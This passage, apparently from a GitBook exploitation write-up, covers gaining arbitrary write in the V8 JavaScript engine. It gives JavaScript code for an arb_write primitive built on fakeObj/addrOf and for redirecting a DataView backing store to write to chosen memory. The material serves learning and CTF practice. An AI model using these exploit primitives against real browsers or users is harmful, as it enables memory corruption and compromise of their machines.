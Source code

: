 now putting it to the test once more:&#x20;

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

now we get the result as expected

### Arbitrary Write

arbitrary write is exactly the same with read, but instead of return `fake[0]` we do assignment on it

```javascript
function arb_write(addr, val) {
    if (addr % 2n == 0)
        addr += 1n;

    let fake = fakeObj(addrOf(arb_rw_arr) - 0x20n);
    arb_rw_arr[1] = itof(0x8n << 32n) + itof(addr - 0x8n);
    fake[0] = itof(val);
}
```

however as explained in the NUS Greyhat's video, copying large amount of memory this way will not work and will cause a segfault (I'm also not sure why), a better way to do this is through the Dataview buffer's backing store

it's basically a field that points to region of memory where you then can use the Dataview methods to alter the content of it.&#x20;

using the arb\_write above, you can overwrite the backing store to point to your arbitrary address and then uses its method to write to it

```javascript
var array_of_data = [1n, 2n, 3n, 4n]
function copy(addr, data_arr) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrOf(buf);
    let backing_store_addr = buf_addr - 1n + 0x2cn;
    arb_write(backing_store_addr, addr);

    for (let i = 0; i < data_arr.length; i++) {
        dataview.setBigUint64(8*i, data_arr[i], true);
    }
}
copy(addrOf(where), array_of_data);
```
